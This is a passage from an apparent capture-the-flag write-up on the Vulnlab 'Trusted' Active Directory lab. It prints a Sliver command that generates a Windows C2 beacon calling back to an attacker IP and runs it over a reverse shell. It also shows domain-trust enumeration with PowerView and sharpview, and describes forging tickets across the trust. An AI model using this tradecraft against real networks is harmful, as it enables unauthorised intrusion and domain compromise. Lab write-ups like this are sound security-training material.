 `PS C:\Windows\system32> cd C:\Users\Administrator\Desktop; cat User.txt`

From here, I stood up a Sliver C2 server to try and enumerate the other domain a little easier.

Note that we couldn't do this previously as `ewalters`, as there was a GPO that restricted us from doing so.
If you're unaware on how to set up a Sliver C2 server, I'll reference the material needed to do so here: https://github.com/BishopFox/sliver
`sliver > mtls`
`generate beacon --mtls 10.8.0.173 --os windows --format exe --arch amd64 --skip-symbols --save (directory of your choice)`

After transferring the file and running it on our reverse shell, we should see a session spawn on Sliver.

![](/images/vulnlab/trusted-vl/n.jpg)

So to start, my first guess is that there's some form of domain trust amongst both domain controllers. I had said this earlier in the machine, just based off the chain's name `Trusted`. There's two (technically three) methods that I know of to enumerate a domain, consisting across all of the shells we have access to.

# Domain Trust Enumeration

We can enumerate the domain locally with `Get-ADTrust`, a regular PowerShell module that is present on this machine. 
`Get-ADTrust -Filter *`

Another is to drop `PowerView` to the machine and then import it.
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
`Import-Module .\PowerView.ps1; Get-DomainTrust`

Finally, we can also use `sharpview`, a .NET version of `PowerView` that is present in Sliver's `armory` function.
`sliver > armory install sharpview`
`sliver > sharpview Get-Domain`
The only issue with `sharpview` is that I was running into an LDAP issue (when running `Get-DomainTrust`, so I'll just use the local `PowerView` option we discussed about previously.

After running `Get-DomainTrust` or `Get-ADTrust`, we receive the following output.

![](/images/vulnlab/trusted-vl/o.jpg)

This means that there is a `Bidirectional` domain trust between both the child domain `lab.trusted.vl` and the parent domain `trusted.vl`. What this essentially means is that both domains `lab.trusted.vl` and `trusted.vl` trust one another - meaning that if you are a Domain Admin in one of the domains, you can also create a TGT for a Domain Admin in the other.

I'd like to create a blog post about this in the future, as the term for this is called `Domain Dominance` and is relatively interesting how you can compromise domains through domain trusts. You can also verify this in `Bloodhound` by looking at the `Map Domain Trusts` in the `Analysis` tab.

![](/images/vulnlab/trusted-vl/p.jpg)
